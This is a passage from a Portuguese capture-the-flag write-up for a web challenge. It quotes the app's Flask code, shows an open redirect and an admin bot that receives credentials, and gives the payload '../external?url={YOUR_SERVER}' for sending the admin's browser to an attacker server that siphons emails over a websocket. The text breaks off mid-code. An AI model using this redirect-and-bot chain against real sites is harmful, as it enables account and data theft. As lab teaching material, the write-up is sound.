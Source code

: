 Para conseguir executar o nosso script dentro do servidor precisamos entender as primeiras vulnerabilidades da aplicação. 

Começando pelo código `./challenge/application/blueprints/routes.py`. Podemos validar que o endpoint `/challenge/external` recebe o parâmetro `url` e realiza redirecionamento para o mesmo.
```python
@web.route('/external')
def external():
    url = request.args.get('url', '')

    if not url:
        return redirect('/')
    
    return redirect(url)
```

No código `./challenge/application/blueprints/api.py`.
```python
@api.route('/report', methods=['POST'])
@isAuthenticated
@isVerified
@antiCSRF
@sanitizeInput
def reportProduct(decodedToken):
    productID = request.form.get('id', '')
   
    if not productID:
        return response('All fields are required!'), 401
    
    adminUser = getUser('1')

    params = {'productID': productID, 'email': adminUser['email'], 'password': adminUser['password']}

    requests.get('http://127.0.0.1:8082/visit', params=params)

    return response('Report submitted! Our team will review it')
```

Podemos validar que o parâmetro `productId` não é tipado, então podemos enviar qualquer tipo de informação para a aplicação, incluindo uma `string`. Sendo assim, podemos encaminhar o seguinte código: `../external?url={YOUR_SERVER}` que será encaminhado para o bot `/visit`.

No bot o `productID` é concatenado na URL. Ou seja, ao concatenar o nosso `productID`, o `client.get` irá tentar abrir a seguinte URL: `http://127.0.0.1:1337/challenge/product/../external?url={YOUR_SERVER}`.

Dessa forma, o navegador do admin será direcionado para o nosso servidor e o script será iniciado, abrindo uma conexão websocket e redirecionando todos os e-mails recebidos para o nosso servidor.
`./bot/app.py`
```python
@app.route('/visit')
def visit():
    productID = request.args.get('productID')
    email = request.args.get('email')
    password = request.args.get('password')

    thread = threading.Thread(target=bot, args=(productID, email, password))
    thread.start()
    return 'OK'

def bot(productID, email, password):
    chrome_options = Options()

    prefs = {
    "download.prompt_for_download": True,
    "download.default_directory": "/dev/null"
```